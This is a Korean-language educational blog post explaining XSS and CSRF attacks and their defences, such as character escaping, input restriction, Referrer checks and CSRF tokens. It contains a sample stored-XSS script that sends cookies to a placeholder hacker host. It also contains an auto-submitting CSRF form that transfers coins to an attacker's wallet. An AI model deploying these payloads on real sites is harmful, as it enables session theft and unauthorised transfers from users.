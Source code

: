 ```yaml
---
layout : posts

title : "XSS 와 CSRF"

date : 2021-07-10

categories : web

comments : true
---
```




전 포스팅 중 [CORS 란](https://pkt369.github.io/web/CORS%EB%9E%80/)을 적으면서 XSS와 CSRF에 대해 한번 언급한적이 있다.

XSS 와 CSRF 는 해킹 방법이며, 이전 포스팅인 CORS와 SOP가 해킹을 보안하기 위해 만든 정책입니다.

XSS와 CSRF 가 정확히 무엇이길래 CORS와 SOP 정책이 나오게 되었을까?

이번 포스팅에서 자세히 알아보자.

<br>

### XSS

XSS는 Cross-Site Scripting (사이트 간 스크립팅)을 의미하며 웹 애플리케이션에서 많이 나타나는 취약점 중 하나로, 개발자가 아닌 다른 사람이 웹 페이지에 악성 스크립트를 삽입하는 것을 말한다.

주로 다른 웹사이트와 정보를 교환하는 식으로 나타나기 때문에 사이트 간 스크립팅이라고 부른다.

<br>

서버 사이트 스크립팅은 언제 일어나게 될까?

웹 애플리케이션이 사용자로부터 입력 받은 값을 제대로 검사하지 않고 사용할 경우 나타난다.

<br>

그럼 어떻게 될까?

성공시 사이트에 접속한 사용자는 삽입된 코드를 실행하게 된다.

코드를 실행하게 되면 쿠키나 세션같은 민감한 정보들을 탈취한다.

<br>

좀더 이해하기 쉽게 예를 들어 설명해보겠다.

한 해커가 웹사이트를 해킹하기 위해 게시글에 쿠키를 빼오는 자바스크립트를 넣었다.

```javascript
<script>window.location = "https://해커의 주소/?cookie=" + document.cookie</script>
```

그럼 일반 사용자는 해당 게시글을 클릭시, 자동으로 악성코드가 발동되어 쿠키 정보가 해커에게 넘어

간다.

<br>

위의 설명은 Stored XSS 이다. 그럼 다른 XSS도 있을까?

XSS는 두가지 종류가 있는데 Stored XSS 와 Reflected XSS가 있다.

Stored XSS 는 사이트 게시판이나 댓글, 닉네임 등 스크립트가 서버에 저장되어 실행되는 방식이고, Reflected XSS는 보통 URL 파라미터(주로 GET)에 스크립트를 넣어 서버에 저장하지 않고 그 즉시 스크립트를 만드는 방식이다. 하지만 Reflected XSS 같은 경우는 브라우저가 차단하기때문에 공격을 성공시키기 어렵다.

<br>

그럼 대응방안은 어떤게 있을까?

1. SCRIPT문장에 존재하는 특수문자를 메타캐릭터로 변환시킨다.

   ![xssEncoding](https://user-images.githubusercontent.com/66049273/125160019-b829a800-e1b5-11eb-85b3-15a730a12a58.jpg)

   참조 : 구글 이미지

2. 파라미터 입력 값 제한

   만약 받는 파라미터를 id 값만 받아오기로 했다면 숫자만 받을수있도록 설정해놓으면 다른 값은 들어올수 없게 된다.

<br>

<br>

### CSRF

CSRF(Cross-Site Request Forgery)는사이트 간 요청 위조라고도 부르며, 사용자가 자신의 의지와 무관하게 공격자가 의도한 행위(수정, 삭제 등)를 요청하게한것을 말한다.

<br>

CSRF는 언제 일어나게 될까?

사용자가 로그인한 상태에서 요청 위조 공격 코드가 삽입된 웹페이지를 열면, 공격 대상이 되는 웹사이트는 위조된 공격 명령이 믿을 수 있는 사용자로 부터 발송된 것으로 판단되어 공격을 받을수 있게 된다.

<br>

그럼 어떻게 될까?

사용자가 자신의 의지와는 무관하게 공격자가 의도한 행위(수정, 삭제 등)을 요청하게 된다.

<br>

좀더 이해하기 쉽게 요즘 핫한 코인 거래소를 예를 들어 설명해보겠다.

사용자가 코인거래소에 로그인하고 해커의 페이지에 방문을 한다.

해커 페이지는 코드를 만들어 자신의 코인 주소로 전송 시키도록 보낸다.

```javascript
<form action="코인 주소" method="POST">
    <input name="받는 사람" value="해코 코인 주소">
    <input name="코인 이름" value="비트코인">
    <input name="개수" value=50>
</form>
<script>document.forms[0].submit()</script>
```

코인 거래소는 사용자의 인증정보를 가지고 request를 받았기때문에 정상적인 요청이라고 인식을 한다.

이렇게 되면 나도모르는 사이 돈이 빠져나가는 것을 볼수 있다.

<br>

그럼 대응방안으로 무엇이 있을까?

1. Referrer 검증

   백엔드에서 request의 referrer를 확인하여 domain이 일치하는지 검증

   즉, 보낸 주소와 현재 domain을 비교 (CORS와 같은 개념)

2. Security Token 사용(CSRF Token)

   사용자 세션에 임의의 난수 값을 저장하고, 사용자 요청마다 난수 값을 포함시켜 전송한다.

   백엔드에서 요청받은 토큰값과 세션에 저장된 토큰 값이 같은지 검증

<br>

<br>

### XSS와 CSRF의 차이점

|                  XSS                  |                CSRF                 |
| :-----------------------------------: | :---------------------------------: |
| 쿠키나 세션같은 중요한 정보 탈취 목적 | 사이트 간 요청을 위조하여 서버 요청 |
|             스크립트 필요             |           스크립트 불필요           |

<br>

<br>

### 정리

마지막으로 정리를 하자면 XSS는 스크립트를 통해 쿠키나 세션을 탈취를 하고 CSRF는 해커사이트에 들어가면 스크립트가 실행이되면서 다른 사이트에 요청이 들어가게 되는것이다.







